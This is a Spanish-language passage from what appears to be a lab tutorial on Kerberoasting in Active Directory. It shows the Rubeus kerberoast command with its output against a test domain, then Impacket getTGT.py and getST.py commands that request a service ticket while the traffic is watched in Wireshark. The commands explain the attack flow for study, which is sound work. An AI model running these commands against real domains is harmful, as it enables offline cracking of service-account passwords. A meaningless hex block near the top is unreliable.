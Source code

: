 ```python
36e99f20bd46b3823e549c188205c1baa625c30d650489d130c826a2941e5b320e9ea5d42eb822cdd
fead60255bd9380b29607fc20c1424282760760479a9c0c841889f1bacfe76fc48a5222c6a07c6d35
8ac7781dac14a09bc8244d309ef7dfa50a1ca2e4d74d9e2d7ab381c92d5969da912cd5ad54f5f4b0d
f1b9fd0542c9209cae8
```
## <a name="_page9_x28.35_y56.69"></a>**Con Rubeus: enfoque desde Windows**
Rubeus es un conjunto de herramientas de C# para la interacción y el control de abusos de Kerberos. Es una herramienta versátil diseñada específicamente para interactuar con tickets Kerberos y comprender el flujo de autenticación. Este escenario es candidato si suponemos que tenemos acceso a la máquina víctima. 

link del proyecto: [https://github.com/GhostPack/Rubeus ](https://github.com/GhostPack/Rubeus)

- cabe destacar que Rubeus tiene varias funcionalidades, kerberoast es solo una de ellas. 
```basic
PS C:\tmp\Rubeus> .\Rubeus.exe kerberoast
 ______ _
 (_____ \ | |
 _____) )_ _| |__ _____ _ _ ___
 | __ /| | | | _ \| ___ | | | |/___)
 | | \ \| |_| | |_) ) ____| |_| |___ |
 |_| |_|____/|____/|_____)____/(___/
 v2.2.0
[*] Action: Kerberoasting
[*] NOTICE: AES hashes will be returned for AES-enabled accounts.
[*] Use /ticket:X or /tgtdeleg to force RC4_HMAC for these accounts.
[*] Target Domain : dc.luc4s
[*] Searching path 'LDAP://WIN-JP12TQDPP2D.dc.luc4s/DC=dc,DC=luc4s' for
'(&(samAccountType=805306368)(servicePrincipalNa
me=*)(!samAccountName=krbtgt)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))'
[*] Total kerberoastable users : 1
[*] SamAccountName : svc_sql
[*] DistinguishedName : CN=svc_sql,CN=Users,DC=dc,DC=luc4s
[*] ServicePrincipalName : MSSQLSvc/dc-luc4s.dc.luc4s:1433
[*] PwdLastSet : 22/07/2025 14:36:12
[*] Supported ETypes : RC4_HMAC_DEFAULT
[*] Hash 
```


{{< figure
    src="rubeuss.png"
        >}}

## <a name="_page11_x28.35_y56.69"></a>**Con Wireshark: observando el tráfico en la red**

Este es el enfoque más interesante, ya que se puede ver a más detalle cómo funciona el ataque.
* Como primer paso solicitamos el ticket TGT 
```python3
getTGT.py -dc-ip 192.168.56.2 dc.luc4s/attacker:'super\_contraseña' Impacket v0.13.0.dev0+20250415.195618.c384b5f - Copyright Fortra, LLC and its affiliated companies 

[\*] Saving ticket in attacker.ccache
```
* Solicitamos ahora el ticket de servicio 
```python3
getST.py -dc-ip 192.168.56.2 -spn 'MSSQLSvc/dc-luc4s.dc.luc4s:1433' dc.luc4s/attacker:'super\_contraseña' 

Impacket v0.13.0.dev0+20250415.195618.c384b5f - Copyright Fortra, LLC and its affiliated companies 
[\*] Getting ST for user 
[\*] Saving ticket in attacker@MSSQLSvc\_dc-luc4s.dc.luc4s:1433@DC.LUC4S.ccache 
```

[ref1]: Aspose.Words.08ebb1d8-49f9-447e-b5c8-f1d77ce92f9d.001.png